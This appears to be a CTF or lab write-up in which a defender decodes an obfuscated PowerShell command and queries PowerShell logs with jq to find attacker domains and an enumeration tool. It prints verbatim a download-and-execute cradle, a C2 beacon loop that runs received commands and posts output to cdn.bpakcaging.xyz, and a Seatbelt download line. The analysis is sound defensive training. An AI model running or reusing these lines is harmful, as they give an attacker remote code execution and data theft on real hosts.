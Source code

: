 ```
      Command line arguments: -nop -windowstyle hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAawBjAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA==
...
...
```

## Endpoint Security - Are you sure that's an invoice?

Decoding the base64 payload reveals an HTTP request to `http://files.bpakcaging.xyz/update`. 

`iex (new-object net.webclient).downloadstring('http://files.bpakcaging.xyz/update')`

We will analyze the PowerShell logs now. Since the log is formatted in JSON, we will use the CLI tool `jq` to parse it and are provided with a cheatsheet.

---
#### Questions

**What are the domains used by the attacker for file hosting and C2? Provide the domains in alphabetical order. (e.g. a.domain.com,b.domain.com)**

The "EventID": 4104 powershell log entries contain a field called "ScriptBlockText". I looked at all the unique values for this field and saw requests to two domains: `cdn.bpakcaging.xyz` and `files.bpakcaging.xyz`. The second domain matching what we found earlier in the encoded payload.

ubuntu@tryhackme:~/Desktop/artefacts$ `cat powershell.json | jq '.ScriptBlockText' | sort | uniq`

```
"$s='cdn.bpakcaging.xyz:8080';$i='8cce49b0-b86459bb-27fe2489';$p='http://';$v=Invoke-WebRequest -UseBasicParsing -Uri $p$s/8cce49b0 -Headers @{\"X-38d2-8f49\"=$i};while ($true){$c=(Invoke-WebRequest -UseBasicParsing -Uri $p$s/b86459bb -Headers @{\"X-38d2-8f49\"=$i}).Content;if ($c -ne 'None') {$r=iex $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-WebRequest -Uri $p$s/27fe2489 -Method POST -Headers @{\"X-38d2-8f49\"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}\n"
```

```
"iex (new-object net.webclient).downloadstring('http://files.bpakcaging.xyz/update')"
```

---

**What is the name of the enumeration tool downloaded by the attacker?**

Using the same jq output we can see a request for a tool on Github:

`"iex(new-object net.webclient).downloadstring('https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Seatbelt.ps1');pwd"`

And another log of the attacker attempting to use this tool:

`"Seatbelt.exe -group=user;pwd"`

Following the GitHub link, we can read the description for this tool, "Seatbelt":

*"Seatbelt is a C# project that performs a number of security oriented host-survey "safety checks" relevant from both offensive and defensive security perspectives."*

---